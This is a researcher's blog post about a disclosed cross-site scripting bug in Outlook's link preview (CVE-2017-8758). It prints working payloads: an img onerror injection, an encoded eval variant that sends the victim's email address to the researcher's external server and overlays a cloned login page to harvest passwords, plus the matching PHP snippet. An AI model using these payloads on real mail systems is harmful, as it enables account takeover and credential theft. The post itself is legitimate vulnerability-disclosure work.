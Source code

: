 ```yaml
---
title: 'Uncovering a Bug I Found in Outlook: How Could an Account Has Been Compromised?'
layout: post
date: '2022-12-26 06:26:33'
---
```


### 1. Introduction

This blog post covers a [cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) bug that I found on [Microsoft Outlook](https://en.wikipedia.org/wiki/Microsoft_Outlook).

I realized that it would be a good idea to write about it for myself and for the benefit of the community.

This bug could have allowed hackers to take over a victim's account or gather sensitive data without the victim even opening an email.

### 2. TL;DR - PoC Video

I'm keeping the 1080p, longer, and uncensored version for myself.

[![](https://img.youtube.com/vi/aM2CgwQRlfk/0.jpg)](https://www.youtube.com/watch?v=aM2CgwQRlfk)

### 3. How I Found The Bug

1) The link preview feature was the vulnerable one. However, it only worked with a group of trusted domains. If a domain was not whitelisted, it would not be fetched. So, I searched for random strings on the search bar of Microsoft.com and Xbox.com and I collected domain of the results. It was my way to find these whitelisted domains. These domains did not necessarily had to be owned by Microsoft. For example, creating Prezi presentations was also working.

2) The vulnerable component was not fetching every part of those trusted websites. So, I needed to go and check different fields of those pages, such as changing the title, description, or other parts. I was not able to edit the fetched content on some of the websites because the preview functionality was only fetching HTML meta tags and so on.


3) So, I ended up my search with creating a post on gallery.technet.microsoft.com. This was the post I used for my report: [https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4]( https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4)

4) I used following payload as description/body field and it worked for me: 
```html
"><img src=x onerror= JAVASCRIPT-CODE-HERE.
```

5) To trigger the bug, you just need to send the URL in the email and that was it. If a victim opens or clicks the "checkbox", the payload was working.

6) As you can guess, it was possible to edit the payload remotely. After a successful attack you could even remove payloads from that page then the email wouldn't contain anything malicious but an URL of a page owned by Microsoft.

### 4. Technical Details of The PoC

1) As you can see in the PoC video above, I created a fake clone of the Outlook login page in PHP and saved login details into a MySQL database. I wanted to create a targeted (email field dynamically changes) fake page because in the original Outlook login page, it shows your email and asks for the password.


2) It was not possible to fit a big payload, so I needed to include my external JavaScript from my server, but I couldn't do because of the [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) as I remember.


3) The following JavaScript code sends the document.title (which contains the email address of the victim) and creates an iframe of my fake login page. Note: I couldn't find the original payload, but I wrote it manually by looking at my other PoC video, so typos may have happened.

```css
"><img src ="x" onerror="document.write('<iframe src="https://cok.kim/?email='+document.title+'" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100$">')"
```

4) That one was breaking, so I used the following as the final encoded payload (it's different from the PoC video, I guess I made a typo above).

```html
"><img src="x" onerror="document.write(document.write(eval(atob('Ij48aW1nIHNyYyA9IngiIG9uZXJyb3I9ImRvY3VtZW50LndyaXRlKCc8aWZyYW1lIHNyYz0iaHR0cHM6Ly9jb2sua2ltLz9lbWFpbD0nK2RvY3VtZW50LnRpdGxlKyciIHN0eWxlPSJib3JkZXI6IDA7IHBvc2l0aW9uOmZpeGVkOyB0b3A6MDsgbGVmdDowOyByaWdodDowOyBib3R0b206MDsgd2lkdGg6MTAwJTsgaGVpZ2h0OjEwMCQiPicpIg==')))" >
```

5) My server-side code (it parses the email address of the victim from "Posta - victim@outlook.com"):
```php
<?php echo explode("-", $_GET['email'])[1]; ?>
```

## 5. Conclusion

Microsoft rewarded me with $5,000 and assigned a CVE ([CVE-2017-8758](https://msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8758)) for this bug because it was affecting the MS Exchange Server.

In the CVE description, it is written as **"Note: In order to exploit this vulnerability, a user must click a maliciously crafted link from an attacker.".** However, as you can see in the POC video, it was not even necessary to open it. When I asked about this, I learned that Microsoft writes generalized explanations to protect their users.

The PM asked if I would be attending Blackhat that year so we could meet in person. Unfortunately, I couldn't go due to a lack of a visa and funds. I was disappointed when I didn't see my name on the MSRC Top 100 Security Researchers of 2017 list.

For a year, I continued to report similar issues under my name and my nickname ([Arif Isik](https://en.wikipedia.org/wiki/G.O.R.A.#Cast), a movie character).

In 2018, I was listed 35th and Arif was 92nd on the [Microsoft’s Top 100 Security Researchers](https://msrc-blog.microsoft.com/2018/08/08/microsofts-top-100-security-researchers-black-hat-2018-edition/) list. I was also invited to [BlueHat](https://en.wikipedia.org/wiki/BlueHat) and had the chance to meet some engineers and visit the Microsoft headquarters in Seattle.
